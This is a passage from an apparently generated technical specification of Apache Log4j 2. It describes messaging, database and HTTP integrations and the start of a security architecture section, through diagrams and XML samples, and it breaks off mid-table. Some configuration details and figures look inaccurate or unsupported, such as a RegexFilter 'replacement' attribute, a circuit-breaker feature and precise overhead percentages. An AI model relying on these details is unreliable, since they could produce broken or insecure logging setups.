    <Property name="key.serializer">org.apache.kafka.common.serialization.StringSerializer</Property>
    <Property name="value.serializer">org.apache.kafka.common.serialization.StringSerializer</Property>
    <Property name="acks">all</Property>
    <Property name="retries">3</Property>
    <Property name="batch.size">16384</Property>
    <Property name="linger.ms">5</Property>
    <JsonLayout complete="false" compact="true"/>
</KafkaAppender>
```

##### 6.3.3.2.2 Apache Flume Integration

Log4j 2 provides multiple Flume integration patterns through the `FlumeAppender` implementation.

**Flume Integration Patterns**:
- **Embedded Agent**: `FlumeEmbeddedManager` for in-process Flume agents
- **Avro RPC Client**: `FlumeAvroManager` for remote Flume communication
- **Persistent Queue**: `FlumePersistentManager` with Berkeley DB for guaranteed delivery
- **Batch Aggregation**: Size and time-based batch triggers for efficiency

**Flume Configuration Strategies**:
```xml
<FlumeAppender name="FlumeAppender" compress="true">
    <Agent>
        <Property name="type">AVRO</Property>
        <Property name="hostname">flume.example.com</Property>
        <Property name="port">4141</Property>
        <Property name="batchSize">100</Property>
        <Property name="maxConnections">10</Property>
    </Agent>
    <PatternLayout pattern="%d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %-5level %logger - %msg%n"/>
</FlumeAppender>
```

##### 6.3.3.2.3 JMS Integration

The `JmsAppender` provides enterprise messaging integration with comprehensive JMS support.

**JMS Integration Features**:
- **JNDI Lookup**: Enterprise directory service integration
- **Message Types**: TextMessage, ObjectMessage, and MapMessage support
- **Connection Management**: Connection pooling and session management
- **Reconnection Logic**: Configurable reconnection intervals for fault tolerance

##### 6.3.3.2.4 ZeroMQ Integration

High-performance messaging through `JeroMqAppender` implementation.

**ZeroMQ Features**:
- **PUB Socket Support**: Publisher/subscriber pattern implementation
- **I/O Thread Configuration**: Configurable thread pool for optimal performance
- **Multi-endpoint Binding**: Support for multiple ZeroMQ endpoints
- **Socket Options**: Comprehensive socket configuration options

#### 6.3.3.3 Stream Processing Design

##### 6.3.3.3.1 Real-time Event Streaming

Log4j 2 implements real-time event streaming capabilities for immediate external system integration.

**Stream Processing Architecture**:
```mermaid
graph TB
    subgraph "Event Sources"
        A[Application Loggers] --> B[LogEvent Creation]
        B --> C[Filter Processing]
        C --> D[Event Enrichment]
    end
    
    subgraph "Stream Processing"
        D --> E[Event Transformation]
        E --> F[Format Conversion]
        F --> G[Compression]
        G --> H[Batch Aggregation]
    end
    
    subgraph "Output Streams"
        H --> I[Kafka Stream]
        H --> J[Flume Stream]
        H --> K[Socket Stream]
        H --> L[HTTP Stream]
    end
    
    subgraph "External Systems"
        I --> M[Message Broker]
        J --> N[Data Pipeline]
        K --> O[SIEM System]
        L --> P[Analytics Platform]
    end
```

##### 6.3.3.3.2 Event Enrichment and Transformation

**Data Enrichment Capabilities**:
- **MDC Integration**: Mapped Diagnostic Context data inclusion
- **ThreadContext Data**: Per-thread contextual information
- **Structured Headers**: Custom header injection for downstream processing
- **Timestamp Normalization**: Consistent timestamp formatting across systems

#### 6.3.3.4 Batch Processing Flows

##### 6.3.3.4.1 Batch Aggregation Strategies

Log4j 2 implements sophisticated batch processing for optimal throughput and resource utilization.

**Batch Processing Features**:
- **Size-based Triggers**: Configurable batch sizes for different appenders
- **Time-based Triggers**: Automatic batch flushing based on time intervals
- **Transaction Support**: Atomic batch processing for database operations
- **Bulk Operations**: Optimized bulk insert capabilities

**Batch Configuration Example**:
```xml
<JdbcAppender name="DatabaseAppender" tableName="logs">
    <DataSource>
        <Property name="url">jdbc:postgresql://localhost:5432/logs</Property>
        <Property name="batchSize">1000</Property>
        <Property name="batchTimeoutMs">5000</Property>
    </DataSource>
    <Column name="event_date" isEventTimestamp="true"/>
    <Column name="level" pattern="%level"/>
    <Column name="logger" pattern="%logger"/>
    <Column name="message" pattern="%message"/>
</JdbcAppender>
```

##### 6.3.3.4.2 Batch Processing Architecture

```mermaid
flowchart TB
    subgraph "Event Collection"
        A[Log Events] --> B[Batch Accumulator]
        B --> C{Batch Full?}
        C -->|No| D[Continue Accumulation]
        C -->|Yes| E[Trigger Batch Processing]
        D --> B
    end
    
    subgraph "Batch Processing"
        E --> F[Batch Validation]
        F --> G[Format Transformation]
        G --> H[Compression]
        H --> I[Transaction Begin]
        I --> J[Bulk Operation]
        J --> K[Transaction Commit]
    end
    
    subgraph "Error Handling"
        K -->|Success| L[Acknowledge Batch]
        K -->|Failure| M[Transaction Rollback]
        M --> N[Retry Logic]
        N --> O{Retry Count < Max?}
        O -->|Yes| P[Exponential Backoff]
        O -->|No| Q[Dead Letter Queue]
        P --> I
    end
```

#### 6.3.3.5 Error Handling Strategy

##### 6.3.3.5.1 Comprehensive Error Management

Log4j 2 implements a multi-layered error handling strategy to ensure system resilience and data integrity.

**Error Handling Components**:
- **AppenderLoggingException**: Structured exception handling for appender failures
- **Configurable Behavior**: `ignoreExceptions` parameter for fault tolerance
- **Failover Support**: Primary/alternate endpoint configuration
- **Circuit Breaker Pattern**: Automatic failure detection and recovery

##### 6.3.3.5.2 Error Handling Flow

```mermaid
sequenceDiagram
    participant Logger as Logger
    participant Appender as Primary Appender
    participant Failover as Failover Appender
    participant Circuit as Circuit Breaker
    participant StatusLog as Status Logger
    
    Logger->>Appender: Send LogEvent
    Appender->>Appender: Attempt Processing
    
    alt Processing Success
        Appender->>Logger: Acknowledge Success
    else Processing Failure
        Appender->>Circuit: Report Failure
        Circuit->>Circuit: Evaluate Failure Rate
        
        alt Circuit Closed
            Circuit->>Appender: Retry Processing
            Appender->>Appender: Exponential Backoff
        else Circuit Open
            Circuit->>Failover: Activate Failover
            Failover->>Failover: Process Event
            Failover->>Logger: Acknowledge Failover
        end
        
        Appender->>StatusLog: Log Error Details
        StatusLog->>StatusLog: Record Diagnostics
    end
```

##### 6.3.3.5.3 Resilience Patterns

| Error Type | Detection Method | Recovery Strategy | Timeout |
|---|---|---|---|
| **Network Failure** | Connection timeout | Exponential backoff retry | 5-30 seconds |
| **Authentication Failure** | HTTP 401/403 response | Credential refresh | 1 minute |
| **Resource Exhaustion** | Buffer full condition | Synchronous fallback | Immediate |
| **Configuration Error** | Validation failure | Default configuration | 10 seconds |

### 6.3.4 External Systems

#### 6.3.4.1 Third-party Integration Patterns

##### 6.3.4.1.1 Database System Integration

Log4j 2 provides comprehensive database integration through multiple specialized appenders and connection management frameworks.

**Database Integration Modules**:
- **JDBC Integration**: Production-grade connection pooling via DBCP2
- **JPA Support**: Object-relational mapping through JPA 2.1 specification
- **NoSQL Support**: MongoDB (v3/v4), Cassandra, CouchDB integration
- **Flexible Mapping**: Dynamic column mapping and batch processing

**Database Integration Architecture**:
```mermaid
graph TB
    subgraph "Database Appenders"
        A[JdbcAppender] --> B[DBCP2 Connection Pool]
        C[JpaAppender] --> D[EntityManager]
        E[MongoAppender] --> F[MongoDB Driver]
        G[CassandraAppender] --> H[Cassandra Driver]
    end
    
    subgraph "Connection Management"
        B --> I[Connection Pool Config]
        D --> J[Persistence Context]
        F --> K[MongoDB Client]
        H --> L[Cluster Configuration]
    end
    
    subgraph "Data Persistence"
        I --> M[(PostgreSQL)]
        J --> N[(MySQL)]
        K --> O[(MongoDB)]
        L --> P[(Cassandra)]
    end
    
    subgraph "Features"
        M --> Q[Transaction Support]
        N --> R[Batch Processing]
        O --> S[Document Mapping]
        P --> T[Distributed Storage]
    end
```

##### 6.3.4.1.2 Message Broker Integration

**Message Broker Support Matrix**:
- **Apache Kafka**: Full producer configuration with high-throughput capabilities
- **Apache Flume**: Embedded and remote agent support with persistent queues
- **JMS Providers**: JNDI-based resource lookup for enterprise messaging
- **ZeroMQ**: High-performance messaging with PUB/SUB patterns

**Message Broker Configuration Example**:
```xml
<Configuration>
    <Appenders>
        <KafkaAppender name="KafkaAppender" topic="application-logs">
            <Property name="bootstrap.servers">kafka-cluster:9092</Property>
            <Property name="acks">all</Property>
            <Property name="retries">5</Property>
            <Property name="compression.type">gzip</Property>
            <JsonLayout complete="false" compact="true"/>
        </KafkaAppender>
        
        <JmsAppender name="JmsAppender" factoryName="ConnectionFactory" destinationBindingName="logQueue">
            <Property name="java.naming.factory.initial">org.apache.activemq.jndi.ActiveMQInitialContextFactory</Property>
            <Property name="java.naming.provider.url">tcp://localhost:61616</Property>
            <PatternLayout pattern="%d %-5level [%t] %logger - %msg%n"/>
        </JmsAppender>
    </Appenders>
</Configuration>
```

##### 6.3.4.1.3 Web Framework Integration

Log4j 2 provides comprehensive web framework integration for enterprise applications.

**Web Framework Integration Modules**:
- **Servlet 3.0+ Support**: Automatic container integration via `ServletContainerInitializer`
- **Spring Boot Auto-configuration**: Seamless Spring ecosystem integration
- **Spring Cloud Config**: Configuration management for distributed applications
- **Web Fragment Registration**: Automatic web.xml configuration

**Web Integration Architecture**:
```mermaid
sequenceDiagram
    participant Container as Servlet Container
    participant Initializer as ServletContainerInitializer
    participant Context as ServletContext
    participant Listener as ContextListener
    participant Filter as Log4jFilter
    
    Container->>Initializer: Initialize on Startup
    Initializer->>Context: Register Components
    Context->>Listener: Create Context Listener
    Listener->>Listener: Initialize Log4j Configuration
    Context->>Filter: Register Servlet Filter
    Filter->>Filter: Set Thread Context
    
    Note over Container, Filter: Per-request logging context
```

#### 6.3.4.2 Legacy System Interfaces

##### 6.3.4.2.1 Backward Compatibility Architecture

Log4j 2 maintains comprehensive backward compatibility through specialized bridge modules.

**Legacy Integration Bridges**:
- **Log4j 1.x Compatibility**: `log4j-1.2-api` provides full API compatibility
- **Commons Logging Bridge**: `log4j-jcl` enables complete JCL replacement
- **Java Util Logging Adapter**: `log4j-jul` integrates JUL handlers
- **SLF4J Implementation**: `log4j-slf4j-impl` provides native SLF4J binding

**Migration Strategy Matrix**:
| Legacy Framework | Bridge Module | Migration Effort | Performance Impact |
|---|---|---|---|
| **Log4j 1.x** | log4j-1.2-api | Minimal (drop-in replacement) | <5% overhead |
| **Commons Logging** | log4j-jcl | Configuration only | <2% overhead |
| **Java Util Logging** | log4j-jul | Handler configuration | <10% overhead |
| **SLF4J** | log4j-slf4j-impl | Dependency change only | Native performance |

##### 6.3.4.2.2 Bridge Implementation Pattern

```mermaid
graph TB
    subgraph "Application Layer"
        A[Legacy Application] --> B[Legacy API Calls]
        B --> C[Bridge Module]
    end
    
    subgraph "Bridge Layer"
        C --> D[API Translation]
        D --> E[Configuration Mapping]
        E --> F[Event Transformation]
    end
    
    subgraph "Log4j 2 Core"
        F --> G[LoggerContext]
        G --> H[Configuration]
        H --> I[Appender Chain]
        I --> J[Layout Processing]
    end
    
    subgraph "Output Systems"
        J --> K[File System]
        J --> L[Database]
        J --> M[Message Queue]
        J --> N[External API]
    end
```

#### 6.3.4.3 API Gateway Configuration

##### 6.3.4.3.1 HTTP-based API Integration

Log4j 2 provides sophisticated HTTP client capabilities for API gateway integration.

**API Gateway Features**:
- **HTTP Appender**: REST API integration with comprehensive configuration
- **Timeout Management**: Configurable connection and read timeouts
- **SSL/TLS Support**: Full certificate validation and client authentication
- **Header Injection**: Custom header configuration for API keys and authentication
- **Content Negotiation**: Automatic content type detection and handling

**API Gateway Integration Configuration**:
```xml
<HttpAppender name="ApiGatewayAppender" 
              url="https://api-gateway.example.com/v1/logs"
              method="POST"
              connectTimeoutMillis="5000"
              readTimeoutMillis="10000">
    <Property name="Content-Type">application/json</Property>
    <Property name="X-API-Key">${env:API_GATEWAY_KEY}</Property>
    <Property name="User-Agent">Log4j2-HttpAppender/2.x</Property>
    <SslConfiguration>
        <TrustStore location="api-gateway-ca.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
        <KeyStore location="client-cert.p12" password="${env:CLIENT_CERT_PASSWORD}"/>
    </SslConfiguration>
    <JsonLayout complete="false" compact="true"/>
</HttpAppender>
```

##### 6.3.4.3.2 API Gateway Integration Flow

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Log4j2 Logger
    participant HttpAppender as HTTP Appender
    participant Gateway as API Gateway
    participant Backend as Backend Service
    
    App->>Logger: Generate Log Event
    Logger->>HttpAppender: Process Event
    HttpAppender->>HttpAppender: Format JSON
    HttpAppender->>HttpAppender: Add Headers
    HttpAppender->>Gateway: HTTP POST Request
    Gateway->>Gateway: Validate API Key
    Gateway->>Gateway: Apply Rate Limiting
    Gateway->>Backend: Forward Request
    Backend->>Gateway: Acknowledge Receipt
    Gateway->>HttpAppender: HTTP 200 Response
    HttpAppender->>Logger: Confirm Delivery
```

#### 6.3.4.4 External Service Contracts

##### 6.3.4.4.1 Plugin-based Extensibility Framework

Log4j 2 implements a comprehensive plugin architecture enabling custom external service integration.

**Plugin Framework Components**:
- **Plugin Annotation Processing**: Compile-time plugin discovery and registration
- **Well-defined Interfaces**: Standardized contracts for custom implementations
- **Dynamic Loading**: Runtime plugin instantiation and configuration
- **Lifecycle Management**: Plugin initialization and cleanup procedures

**Core Plugin Interfaces**:
- **NoSqlProvider**: Database integration abstraction
- **PasswordProvider**: Secure credential handling interface
- **AuthorizationProvider**: Custom authentication scheme support
- **LayoutFactory**: Custom message format implementation

##### 6.3.4.4.2 External Service Integration Pattern

```mermaid
graph TB
    subgraph "Plugin Discovery"
        A[Plugin Annotation] --> B[Compile-time Processing]
        B --> C[Plugin Metadata]
        C --> D[Plugin Registry]
    end
    
    subgraph "Plugin Instantiation"
        D --> E[Plugin Factory]
        E --> F[Configuration Binding]
        F --> G[Plugin Instance]
        G --> H[Lifecycle Management]
    end
    
    subgraph "External Service Integration"
        H --> I[Service Authentication]
        I --> J[Connection Establishment]
        J --> K[Data Transformation]
        K --> L[Service Invocation]
        L --> M[Response Handling]
    end
    
    subgraph "Error Handling"
        M --> N[Success Path]
        M --> O[Failure Path]
        O --> P[Retry Logic]
        P --> Q[Fallback Strategy]
    end
```

##### 6.3.4.4.3 Service Contract Implementation

**Custom Service Provider Example**:
```java
@Plugin(name = "CustomServiceProvider", category = Node.CATEGORY, elementType = "serviceProvider")
public class CustomServiceProvider implements ServiceProvider {
    
    @PluginConfiguration
    private Configuration configuration;
    
    @PluginAttribute("serviceUrl")
    private String serviceUrl;
    
    @PluginAttribute("timeout")
    private int timeout = 30000;
    
    public static CustomServiceProvider createProvider(
            @PluginConfiguration Configuration config,
            @PluginAttribute("serviceUrl") String serviceUrl,
            @PluginAttribute("timeout") int timeout) {
        return new CustomServiceProvider(config, serviceUrl, timeout);
    }
    
    @Override
    public void sendEvent(LogEvent event) {
        // Custom service integration logic
        try {
            String formattedEvent = formatEvent(event);
            sendToService(formattedEvent);
        } catch (Exception e) {
            handleError(e, event);
        }
    }
}
```

### 6.3.5 Integration Flow Diagrams

#### 6.3.5.1 Comprehensive Integration Flow

```mermaid
graph TB
    subgraph "Application Layer"
        A[Application Code] --> B[Logger.info/warn/error]
        B --> C[LogEvent Creation]
        C --> D[MDC/NDC Context]
    end
    
    subgraph "Core Processing"
        D --> E[Filter Chain]
        E --> F[Async Processing]
        F --> G[Layout Processing]
        G --> H[Appender Manager]
    end
    
    subgraph "Integration Layer"
        H --> I{Appender Type}
        I -->|HTTP| J[HTTP Appender]
        I -->|Socket| K[Socket Appender]
        I -->|Kafka| L[Kafka Appender]
        I -->|Database| M[JDBC Appender]
        I -->|JMS| N[JMS Appender]
    end
    
    subgraph "Connection Management"
        J --> O[HTTP Connection Pool]
        K --> P[Socket Manager]
        L --> Q[Kafka Producer]
        M --> R[Database Connection Pool]
        N --> S[JMS Connection Factory]
    end
    
    subgraph "External Systems"
        O --> T[REST API]
        P --> U[Log Server]
        Q --> V[Kafka Cluster]
        R --> W[Database]
        S --> X[Message Queue]
    end
    
    subgraph "Monitoring & Feedback"
        T --> Y[Health Check]
        U --> Z[Connection Status]
        V --> AA[Producer Metrics]
        W --> BB[Transaction Status]
        X --> CC[Queue Metrics]
    end
```

#### 6.3.5.2 API Architecture Integration

```mermaid
graph TB
    subgraph "Client Applications"
        A[Web Application] --> B[Log4j2 Logger]
        C[Microservice] --> D[Log4j2 Logger]
        E[Batch Job] --> F[Log4j2 Logger]
    end
    
    subgraph "Log4j2 API Layer"
        B --> G[LoggerContext]
        D --> G
        F --> G
        G --> H[Configuration Manager]
        H --> I[Appender Registry]
    end
    
    subgraph "Protocol Adapters"
        I --> J[HTTP Adapter]
        I --> K[Socket Adapter]
        I --> L[Message Queue Adapter]
        I --> M[Database Adapter]
    end
    
    subgraph "Security Layer"
        J --> N[SSL/TLS Handler]
        K --> O[Certificate Manager]
        L --> P[SASL Authentication]
        M --> Q[Database Security]
    end
    
    subgraph "External API Gateway"
        N --> R[Load Balancer]
        R --> S[API Gateway]
        S --> T[Rate Limiter]
        T --> U[Authentication Service]
        U --> V[Backend Services]
    end
    
    subgraph "Monitoring & Analytics"
        V --> W[Metrics Collection]
        W --> X[Log Aggregation]
        X --> Y[Analytics Platform]
        Y --> Z[Alerting System]
    end
```

#### 6.3.5.3 Message Flow Architecture

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Logger
    participant Async as Async Processor
    participant Appender as Appender
    participant Manager as Connection Manager
    participant External as External System
    
    App->>Logger: Log Event
    Logger->>Async: Enqueue Event
    Note over Async: Ring Buffer Processing
    
    Async->>Appender: Process Event Batch
    Appender->>Appender: Format Message
    Appender->>Manager: Get Connection
    Manager->>Manager: Validate Connection
    Manager->>Appender: Return Connection
    
    Appender->>External: Send Message
    External->>Appender: Acknowledge
    Appender->>Manager: Return Connection
    Manager->>Manager: Pool Connection
    
    alt Error Scenario
        External->>Appender: Error Response
        Appender->>Appender: Retry Logic
        Appender->>Manager: Get Failover Connection
        Manager->>Appender: Provide Backup
        Appender->>External: Retry Message
    end
    
    Appender->>Async: Processing Complete
    Async->>Logger: Batch Complete
    Logger->>App: Continue Execution
```

### 6.3.6 Performance and Scalability

#### 6.3.6.1 Integration Performance Characteristics

| Integration Type | Latency | Throughput | Memory Usage | CPU Impact |
|---|---|---|---|---|
| **HTTP Appender** | 10-50ms | 1K-10K events/sec | 8-16MB | Low |
| **Socket Appender** | 1-5ms | 10K-100K events/sec | 2-8MB | Very Low |
| **Kafka Appender** | 5-20ms | 50K-500K events/sec | 16-64MB | Low |
| **JDBC Appender** | 5-15ms | 5K-50K events/sec | 8-32MB | Medium |
| **JMS Appender** | 10-30ms | 2K-20K events/sec | 16-32MB | Medium |

#### 6.3.6.2 Scalability Optimization

**Connection Pooling Configuration**:
```xml
<JdbcAppender name="DatabaseAppender" tableName="logs">
    <ConnectionSource>
        <DataSource>
            <Property name="initialSize">5</Property>
            <Property name="maxActive">50</Property>
            <Property name="maxIdle">25</Property>
            <Property name="minIdle">5</Property>
            <Property name="maxWait">10000</Property>
            <Property name="validationQuery">SELECT 1</Property>
            <Property name="testOnBorrow">true</Property>
            <Property name="testWhileIdle">true</Property>
        </DataSource>
    </ConnectionSource>
</JdbcAppender>
```

### 6.3.7 Security Considerations

#### 6.3.7.1 Transport Security

- **SSL/TLS Encryption**: End-to-end encryption for all network communications
- **Certificate Validation**: Comprehensive certificate chain validation
- **Protocol Security**: Support for TLS 1.2+ protocols with secure cipher suites
- **Authentication**: Multiple authentication mechanisms (Basic, Certificate, Custom)

#### 6.3.7.2 Data Security

- **Sensitive Data Filtering**: Configurable filters for PII and sensitive information
- **Encryption at Rest**: Support for encrypted storage backends
- **Access Control**: Integration with enterprise authentication systems
- **Audit Trails**: Comprehensive logging of integration activities

### 6.3.8 References

#### Files Examined
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/mom/kafka/KafkaAppender.java` - Kafka integration implementation with producer configuration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/HttpAppender.java` - HTTP/REST API integration with connection management
- `log4j-web/src/main/java/org/apache/logging/log4j/web/Log4jServletContainerInitializer.java` - Servlet container integration for web applications
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/SslConfiguration.java` - SSL/TLS configuration and certificate management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/util/BasicAuthorizationProvider.java` - Basic authentication implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/SocketAppender.java` - TCP/UDP socket-based integration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/mom/JmsAppender.java` - JMS integration with enterprise messaging
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/mom/jeromq/JeroMqAppender.java` - ZeroMQ integration for high-performance messaging
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/AbstractSocketManager.java` - Network abstraction layer for socket management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/TcpSocketManager.java` - TCP socket implementation with connection pooling
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/HttpURLConnectionManager.java` - HTTP connection management and pooling
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/SocketOptions.java` - Socket configuration options and performance tuning
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/nosql/AbstractNoSqlConnection.java` - NoSQL database integration abstraction
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/PasswordProvider.java` - Password handling interface for secure credential management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/KeyStoreConfiguration.java` - Keystore management for SSL/TLS

#### Folders Explored
- `log4j-web/` - Servlet container integration module for web applications
- `log4j-spring-boot/` - Spring Boot integration and auto-configuration
- `log4j-flume-ng/` - Apache Flume integration for log aggregation
- `log4j-slf4j-impl/` - SLF4J binding implementation for framework compatibility
- `log4j-mongodb3/` - MongoDB v3 integration for document storage
- `log4j-mongodb4/` - MongoDB v4 integration with enhanced features
- `log4j-samples/log4j-samples-flume-embedded/` - Flume embedded agent samples
- `log4j-samples/log4j-samples-flume-remote/` - Flume remote agent integration samples
- `log4j-spring-cloud-config/log4j-spring-cloud-config-samples/` - Spring Cloud Config integration samples

#### Technical Specification Sections
- **1.2 SYSTEM OVERVIEW** - System architecture context and integration patterns
- **6.1 CORE SERVICES ARCHITECTURE** - Component architecture and internal communication patterns
- **6.2 DATABASE DESIGN** - Database integration patterns and persistence mechanisms

## 6.4 SECURITY ARCHITECTURE

### 6.4.1 Security Architecture Overview

Apache Log4j 2 implements a **specialized security architecture** designed specifically for secure logging operations rather than traditional application-level authentication and authorization. The framework's security model focuses on protecting log data in transit, filtering sensitive information, and providing secure integration with external systems while maintaining the high-performance characteristics required for enterprise logging.

The security architecture operates on three core principles:

- **Secure Transport**: Comprehensive SSL/TLS implementation for all network communications
- **Data Protection**: Advanced filtering and masking capabilities for sensitive information
- **Integration Security**: Secure authentication mechanisms for external system connectivity

#### 6.4.1.1 Security Scope and Boundaries

**Primary Security Boundaries**:
- **Network Communications**: SSL/TLS encryption for all network appenders (Socket, HTTP, Kafka, JMS)
- **Data Processing**: Pattern-based filtering and sanitization of sensitive log content
- **External Integration**: Authentication and authorization for remote configuration sources
- **Web Container Integration**: Secure context isolation in servlet environments

**Security Architecture Components**:

```mermaid
graph TB
    subgraph "Security Layer"
        A[SSL/TLS Engine] --> B[Certificate Management]
        C[Authentication Framework] --> D[Credential Providers]
        E[Data Protection] --> F[Pattern Filters]
        G[Web Security] --> H[Context Isolation]
    end
    
    subgraph "Network Security"
        B --> I[KeyStore Management]
        B --> J[TrustStore Management]
        I --> K[Client Certificates]
        J --> L[CA Validation]
    end
    
    subgraph "Data Security"
        F --> M[Regex Filtering]
        F --> N[Replacement Patterns]
        M --> O[Sensitive Data Masking]
        N --> P[Content Sanitization]
    end
    
    subgraph "Integration Security"
        D --> Q[Memory Provider]
        D --> R[File Provider]
        D --> S[Environment Provider]
        Q --> T[HTTP Basic Auth]
        R --> U[Remote Configuration]
        S --> V[System Integration]
    end
```

#### 6.4.1.2 Security Implementation Characteristics

| Security Domain | Implementation | Coverage | Performance Impact |
|---|---|---|---|
| **Transport Security** | SSL/TLS with certificate validation | All network appenders | <5% overhead |
| **Data Protection** | Pattern-based filtering/masking | All log events | <2% overhead |
| **Authentication** | HTTP Basic Auth, certificate-based | HTTP/Remote config | <1% overhead |
| **Web Integration** | Context isolation, thread safety | Servlet containers | Minimal |

### 6.4.2 Transport Security Architecture

#### 6.4.2.1 SSL/TLS Implementation

Apache Log4j 2 provides a comprehensive SSL/TLS implementation through the `org.apache.logging.log4j.core.net.ssl` package, supporting enterprise-grade secure communications for all network-based appenders.

**SSL/TLS Security Components**:

```mermaid
graph TB
    subgraph "SSL Configuration"
        A[SslConfiguration] --> B[SslConfigurationFactory]
        B --> C[Protocol Selection]
        C --> D[Cipher Suite Configuration]
    end
    
    subgraph "Certificate Management"
        E[KeyStoreConfiguration] --> F[TrustStoreConfiguration]
        F --> G[AbstractKeyStoreConfiguration]
        G --> H[Certificate Validation]
    end
    
    subgraph "Password Management"
        I[PasswordProvider Interface] --> J[MemoryPasswordProvider]
        I --> K[FilePasswordProvider]
        I --> L[EnvironmentPasswordProvider]
    end
    
    subgraph "Connection Security"
        M[LaxHostnameVerifier] --> N[Certificate Chain Validation]
        N --> O[SSL Context Creation]
        O --> P[Secure Socket Factory]
    end
    
    A --> E
    E --> I
    H --> M
    P --> Q[Secure Network Communication]
```

#### 6.4.2.2 Certificate Management System

**Certificate Handling Features**:
- **KeyStore Management**: Support for JKS, PKCS12, and other standard formats
- **TrustStore Configuration**: CA certificate validation and chain verification
- **Dynamic Certificate Loading**: Runtime certificate updates without restart
- **Hostname Verification**: Configurable hostname validation with fallback options

**SSL Configuration Example**:
```xml
<SslConfiguration>
    <KeyStore location="client-keystore.jks" password="${env:KEYSTORE_PASSWORD}"/>
    <TrustStore location="ca-truststore.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
    <Protocol>TLSv1.2</Protocol>
    <VerifyHostName>true</VerifyHostName>
</SslConfiguration>
```

#### 6.4.2.3 Protocol Security Matrix

| Protocol | SSL/TLS Support | Authentication | Encryption Level |
|---|---|---|---|
| **HTTP/HTTPS** | Full SSL/TLS 1.2+ | Basic Auth, Certificate | AES 256-bit |
| **TCP Socket** | SSL Socket Layer | Certificate-based | AES 256-bit |
| **Kafka** | SASL/SSL | SASL mechanisms | Protocol-dependent |
| **JMS** | Provider-dependent | JNDI-based | Provider-dependent |

### 6.4.3 Authentication Framework

#### 6.4.3.1 HTTP Authentication System

The authentication framework in Apache Log4j 2 focuses on secure connectivity to external systems rather than user authentication, implementing HTTP Basic Authentication for remote configuration sources and HTTP appenders.

**Authentication Components**:

```mermaid
sequenceDiagram
    participant Config as Configuration
    participant AuthProvider as AuthorizationProvider
    participant PasswordDecryptor as PasswordDecryptor
    participant HTTPClient as HTTP Client
    participant RemoteSystem as Remote System
    
    Config->>AuthProvider: Request Authorization
    AuthProvider->>PasswordDecryptor: Decrypt Credentials
    PasswordDecryptor->>AuthProvider: Return Plaintext
    AuthProvider->>AuthProvider: Encode Base64
    AuthProvider->>HTTPClient: Set Authorization Header
    HTTPClient->>RemoteSystem: HTTP Request with Auth
    RemoteSystem->>HTTPClient: Validate & Respond
    HTTPClient->>Config: Return Response
```

#### 6.4.3.2 Credential Management

**Password Provider Architecture**:
- **MemoryPasswordProvider**: In-memory credential storage for development
- **FilePasswordProvider**: Encrypted credential files for production
- **EnvironmentPasswordProvider**: Environment variable-based credentials
- **PasswordDecryptor Interface**: Pluggable credential decryption support

**Credential Security Configuration**:
```xml
<HttpAppender name="SecureAppender" url="https://secure.example.com/logs">
    <Property name="Authorization">Basic ${env:HTTP_BASIC_AUTH}</Property>
    <SslConfiguration>
        <KeyStore location="client.p12" password="${file:keystore.pwd}"/>
        <TrustStore location="ca-certs.jks" password="${env:TRUSTSTORE_PWD}"/>
    </SslConfiguration>
</HttpAppender>
```

#### 6.4.3.3 Authentication Integration Points

| Integration Type | Authentication Method | Credential Source | Security Level |
|---|---|---|---|
| **HTTP Appender** | Basic Authentication | Environment/File | TLS-protected |
| **Remote Configuration** | HTTP Basic Auth | Encrypted files | Certificate-based |
| **JMS Integration** | JNDI Authentication | Directory service | Provider-dependent |
| **Database Connections** | Connection string | Encrypted properties | Database-level |

### 6.4.4 Data Protection Architecture

#### 6.4.4.1 Sensitive Data Filtering

Apache Log4j 2 implements comprehensive data protection through pattern-based filtering and replacement mechanisms to prevent sensitive information from being logged.

**Data Protection Components**:

```mermaid
graph TB
    subgraph "Input Processing"
        A[Log Event] --> B[Pattern Matcher]
        B --> C[Regex Filter]
        C --> D[Replacement Engine]
    end
    
    subgraph "Filter Chain"
        E[RegexFilter] --> F[Pattern Validation]
        F --> G[Match Detection]
        G --> H[Action Decision]
    end
    
    subgraph "Data Transformation"
        I[RegexReplacement] --> J[Pattern Substitution]
        J --> K[Masking Rules]
        K --> L[Content Sanitization]
    end
    
    subgraph "Output Encoding"
        M[EncodingPatternConverter] --> N[HTML Escaping]
        M --> O[JSON Escaping]
        M --> P[XML Escaping]
        M --> Q[CRLF Protection]
    end
    
    D --> E
    H --> I
    L --> M
    Q --> R[Secure Log Output]
```

#### 6.4.4.2 Pattern-Based Security Filters

**Filtering Mechanisms**:
- **RegexFilter**: Pattern matching for sensitive data detection
- **RegexReplacement**: Secure replacement of matched patterns
- **Content Validation**: Input validation and sanitization
- **Encoding Protection**: Output encoding for various formats

**Data Protection Configuration**:
```xml
<Configuration>
    <Filters>
        <RegexFilter regex="(\d{4}-\d{4}-\d{4}-\d{4})" replacement="****-****-****-****"/>
        <RegexFilter regex="(\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b)" replacement="[EMAIL_MASKED]"/>
        <RegexFilter regex="(password|pwd|secret)=\S+" replacement="$1=[REDACTED]"/>
    </Filters>
</Configuration>
```

#### 6.4.4.3 Encoding and Sanitization

**Security Encoding Support**:
- **HTML Escaping**: Prevention of XSS attacks in web log viewers
- **JSON Escaping**: Safe JSON output formatting
- **XML Escaping**: XML-safe character encoding
- **CRLF Protection**: Log injection prevention

| Encoding Type | Purpose | Implementation | Security Benefit |
|---|---|---|---|
